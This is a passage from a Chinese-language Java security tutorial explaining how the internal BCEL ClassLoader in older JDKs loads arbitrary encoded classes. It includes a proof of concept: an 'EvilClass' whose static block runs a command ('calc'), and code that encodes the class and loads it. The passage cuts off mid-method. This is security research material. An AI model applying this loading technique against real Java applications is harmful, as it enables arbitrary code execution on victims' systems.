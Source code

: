 **BCEL（Byte Code Engineering Library）** 是 Apache Commons 旗下的一个 Java 字节码操作库，允许开发者修改、创建和分析 Java 字节码（`.class` 文件）。它主要用于代码生成、字节码分析、安全研究以及 Java 反序列化攻击等场景。

从 `JDK 6` 开始，Oracle 直接将 BCEL 代码修改后集成到了 JDK 内部，放在了 `com.sun.org.apache.bcel.internal.*` 命名空间中，并打包进 `rt.jar`。这使得 JDK 内部组件能够使用 BCEL，而无需外部依赖。例如，JDK 的 XML 解析组件（如 Xalan）就使用了 BCEL 来处理字节码转换。

JDK 8u251 之后，Oracle 移除了 `com.sun.org.apache.bcel.internal.util.ClassLoader` 类，导致基于 BCEL 的反序列化攻击链失效。所以`BCEL`这条链的调试环境只需要我们使用JDK8u251以前的JDK版本(不包括JDK8u251)即可，无须任何其他依赖。

## 前置知识

如果你对ClassLoader的概念还不清楚，可以先阅读我的这篇文章哦：[详解JavaClassLoader](../详解%20JAVAClassLoader/main.md)

其实说`BCEL`是反序列化链，感觉有点勉强，毕竟通过自定义的ClassLoader来加载`.class`的过程也不像是反序列化。不过广义上的反序列化就是把类对象转换成字符串或者是字节码的可存储形式，hhhhhh，这么看还是没毛病的。

在我看完`BCEL`后，我认为这个库在设计之初并没有考虑到这个加载器的安全问题（可能当时还没有反序列化漏洞的概念），所以可以直接加载任意类，当这个类中包含了恶意代码，那恶意代码也会执行。

了解完ClassLoader的内容后，其实直接运行POC看效果就行了，可以发现这个POC是非常简单的。

## POC

首先是创建一个恶意类，该类的static代码块中包含了要执行的代码。

```java
package bcel;
import java.io.IOException;
public class EvilClass {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException ignore) { }
    }
}
```

然后开始使用BCEL对该Class进行加载、执行。

```java
package bcel;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class BCELTest {
    public static void main(String[] args) throws Exception {
        // genBCELClassEncode();
        loadClass();
    }
	
    public static void genBCELClassEncode() throws Exception{
        Class<?> evilClass = Class.forName("bcel.EvilClass");
        JavaClass javaClass = Repository.lookupClass(evilClass);
        String encode = Utility.encode(javaClass.getBytes(), true);
        System.out.println(encode);
    }

    public static void loadClass() throws Exception{
```